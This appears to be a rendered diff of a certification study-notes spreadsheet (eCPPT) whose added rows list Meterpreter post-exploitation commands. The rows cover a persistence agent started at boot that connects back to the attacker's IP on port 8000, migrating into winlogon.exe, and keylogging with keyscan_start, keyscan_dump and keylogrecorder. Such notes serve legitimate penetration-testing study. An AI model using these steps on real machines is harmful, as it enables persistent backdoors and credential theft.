

Before and after one commit to zer0byte/ecppt-notes, an Excel workbook: ECPPT/network-security/Tools-List.xlsx, sheet Post Exploitation, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Complete Post Enumeration

```diff
--- a/ECPPT/network-security/Tools-List.xlsx (sheet Post Exploitation)
+++ b/ECPPT/network-security/Tools-List.xlsx (sheet Post Exploitation)
-H1: (empty)
+H1: List of all potential commands
+row 164: (empty)
+row 165: persistence
+row 166: meterpreter > run persistence -h
+row 167: (empty)
+row 168: -A |  |  | Starts the handler on the machine
+row 169: -X |  |  | Start the agent at boot
+row 170: -i 5 |  |  | Connection attempt each 5 seconds
+row 171: -p 8000 |  |  | the port for the connect back
+row 172: -r <IP_address> |  |  | our IP address
+row 173: (empty)
+row 174: keyscan_start
+row 175: migrate 500 |  |  | migrate to winlogon.exe pid (winlogon.exe is program that handles logging in)
+row 176: meterpreter > get pid |  |  | Rechecking if we are in the correct pid (should be 500)
+row 177: meterpreter > keyscan_start |  |  | start keylogger
+row 178: meterpreter > keyscan_dump |  |  | dump the captured keys
+row 179: (empty)
+row 180: keylogrecorder
+row 181: meterpreter > run keylogrecorder -c 0
+row 182: arp_scanner
```
Also changed, not shown: 88 added rows, 15 edited cells and cell formats elsewhere in this sheet, 1 other file.
